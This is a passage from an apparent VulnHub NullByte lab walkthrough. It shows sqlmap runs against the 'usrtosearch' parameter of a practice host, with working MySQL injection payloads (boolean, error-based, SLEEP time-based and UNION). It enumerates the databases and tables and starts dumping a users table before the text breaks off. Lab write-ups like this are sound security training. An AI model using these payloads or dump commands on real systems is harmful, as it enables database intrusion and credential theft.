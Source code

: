 		Type: error-based
		Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
		Payload: usrtosearch=" AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7176786a71,(SELECT (ELT(4502=4502,1))),0x7178767671,0x78))s), 8446744073709551610, 8446744073709551610)))-- RmAL

		Type: time-based blind
		Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		Payload: usrtosearch=" AND (SELECT 9975 FROM (SELECT(SLEEP(5)))HjUW)-- Hkvj

		Type: UNION query
		Title: MySQL UNION query (NULL) - 3 columns
		Payload: usrtosearch=" UNION ALL SELECT CONCAT(0x7176786a71,0x6558556579436b4c6b736a645474705970505259756c734c58416f6261784e69665458716864597a,0x7178767671),NULL,NULL#

		available databases [5]:
		[*] information_schema
		[*] mysql
		[*] performance_schema
		[*] phpmyadmin
		[*] seth
		```
	2. Enumerate tables `seth` database
		```
		┌──(root💀kali)-[~/vulnHub/NullByte/192.168.110.11/exploit]
		└─# sqlmap -r sqli.txt -p usrtosearch -D seth --tables --output-dir=$(pwd)/sqlmap

		Parameter: usrtosearch (GET)
		Type: boolean-based blind
		Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
		Payload: usrtosearch=" AND 5195=5195#

		Type: error-based
		Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
		Payload: usrtosearch=" AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7176786a71,(SELECT (ELT(4502=4502,1))),0x7178767671,0x78))s), 8446744073709551610, 8446744073709551610)))-- RmAL

		Type: time-based blind
		Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		Payload: usrtosearch=" AND (SELECT 9975 FROM (SELECT(SLEEP(5)))HjUW)-- Hkvj

		Type: UNION query
		Title: MySQL UNION query (NULL) - 3 columns
		Payload: usrtosearch=" UNION ALL SELECT CONCAT(0x7176786a71,0x6558556579436b4c6b736a645474705970505259756c734c58416f6261784e69665458716864597a,0x7178767671),NULL,NULL#

		Database: seth
		[1 table]
		+-------+
		| users |
		+-------+
		```
	3. Dump `users` table
		```
		┌──(root💀kali)-[~/vulnHub/NullByte/192.168.110.11/exploit]
		└─# sqlmap -r sqli.txt -p usrtosearch -D seth -T users --dump --output-dir=$(pwd)/sqlmap 
